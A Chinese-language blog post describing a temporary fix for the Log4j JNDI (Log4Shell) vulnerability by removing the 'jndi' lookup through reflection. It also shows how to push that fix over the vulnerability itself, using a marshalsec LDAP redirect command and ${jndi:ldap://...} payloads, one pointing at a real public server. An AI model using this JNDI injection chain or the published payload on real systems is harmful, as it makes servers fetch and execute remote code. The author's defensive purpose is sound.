





目前来说，最靠谱的修复方式还是升级到新版本。但是如果很多老旧项目是没人维护的，升级也不太现实。


宽字节的团队的师傅们提出了反射修改属性的临时修复方法，通过strLookupMap中的jndi来修复。


优点是可以比较方便，不需要重新编译。缺点是比较临时，应用重启以后就失效了。


宽字节的团队的师傅的方法是将代码做成jsp，然后上传执行。

```java
<%
Object obj = LogManager.getLogger();
Field contextF = obj.getClass().getDeclaredField("context");
contextF.setAccessible(true);
Object context = contextF.get(obj);
Field configurationF = context.getClass().getDeclaredField("configuration");
configurationF.setAccessible(true);
Object configuration = configurationF.get(context);
Field substF = configuration.getClass().getSuperclass().getDeclaredField("subst");
substF.setAccessible(true);
Object subst = substF.get(configuration);
Field variableResolverF = subst.getClass().getDeclaredField("variableResolver");
variableResolverF.setAccessible(true);
Object variableResolver = variableResolverF.get(subst);
Field strLookupMapF = variableResolver.getClass().getDeclaredField("strLookupMap");
strLookupMapF.setAccessible(true);
HashMap strLookupMap = (HashMap) strLookupMapF.get(variableResolver);
strLookupMap.remove("jndi");
%>
```

这种方式针对tomcat的环境，确实是比较有效的。但是针对于springboot和一些非web的受影响程序，比如我的世界等等，就爱莫能助呢。


但是我们能利用JNDI来执行命令，其实也可以利用JNDI来远程修复漏洞。


将代码编译为class

```java
import org.apache.logging.log4j.LogManager;

import java.lang.reflect.Field;
import java.util.HashMap;

public class Repair {
    public Repair() throws Exception {
        Object obj = LogManager.getLogger();
        Field contextF = obj.getClass().getDeclaredField("context");
        contextF.setAccessible(true);
        Object context = contextF.get(obj);
        Field configurationF = context.getClass().getDeclaredField("configuration");
        configurationF.setAccessible(true);
        Object configuration = configurationF.get(context);
        Field substF = configuration.getClass().getSuperclass().getDeclaredField("subst");
        substF.setAccessible(true);
        Object subst = substF.get(configuration);
        Field variableResolverF = subst.getClass().getDeclaredField("variableResolver");
        variableResolverF.setAccessible(true);
        Object variableResolver = variableResolverF.get(subst);
        Field strLookupMapF = variableResolver.getClass().getDeclaredField("strLookupMap");
        strLookupMapF.setAccessible(true);
        HashMap strLookupMap = (HashMap) strLookupMapF.get(variableResolver);
        strLookupMap.remove("jndi");
    }

    public static void main(String[] args) throws Exception {
        Repair t = new Repair();
    }
}
```


然后使用marshalsec-0.0.3-SNAPSHOT-all.jar进行重定向

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.106:8100/#Repair"`



Python启动web服务



在web中执行修复payload，然后请求多次



根据jndi服务器的请求，在被执行一次后，客户端漏洞成功临时修复。后续payload均未执行。



**为方便大家修复，我搭建了一个公网服务器，修复代码 ${jndi:ldap://139.155.45.67:21389/Repair}, 可以自行反编译class，检测是否恶意**

最后

**本方法仅仅为临时修复，应用重启后会失效，条件允许的情况下还是推荐使升级到新版本**

